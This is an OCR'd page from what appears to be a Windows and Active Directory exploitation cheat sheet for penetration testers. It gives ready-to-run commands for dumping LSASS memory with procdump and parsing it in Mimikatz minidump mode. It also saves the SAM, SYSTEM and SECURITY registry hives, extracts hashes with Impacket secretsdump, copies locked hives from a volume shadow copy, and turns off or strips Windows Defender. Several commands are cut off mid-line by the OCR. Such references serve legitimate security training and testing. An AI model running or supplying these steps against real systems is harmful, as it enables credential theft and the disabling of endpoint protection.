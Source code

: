Dumping secrets without Mimikatz
We can also parse system secrets without using Mimikatz on the
target system directly

Dumping LSASS
The preferred way to run Mimikatz is to do it locally with a
dumped copy of LSASS memory from the target Dumpert
Procdump or other custom tooling can be used to dump LSASS
memory
# Dump LSASS memory through a process snapshot (-r), avo
.\procdump.exe -r -ma lsass.exe lsass.dmp

After downloading the memory dump file on our attacking
system we can run Mimikatz and switch to ‘Minidump’ mode to
parse the file as follows
sekurlsa::minidump lsass.dmp
After this we can run Mimikatz commands as usual

Dumping secrets from the registry
We can dump secrets from the registry and parse the files
“offline” to get a list of system secrets 🚩
On the target we run the following
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\syste
reg.exe save hklm\security c:\users\public\downloads\sec

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

27/31

3/11/2021

Windows & Active Directory Exploitation Cheat Sheet and Command Reference :: Cas van Cooten — I ramble about security stuff, mostly

Then on our attacking box we can dump the secrets with
Impacket
impacket-secretsdump -sam sam.save -system system.save -

Dumping secrets from a Volume Shadow Copy
We can also create a “Volume Shadow Copy” of the SAM and
SYSTEM files which are always locked on the current system

so we can still copy them over to our local system An elevated
prompt is required for this
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\win
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\win

Disable defender
👀🚩
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Or leave Defender enabled and just remove the signatures from
it
"C:\Program Files\Windows Defender\MpCmdRun.exe" -Remove
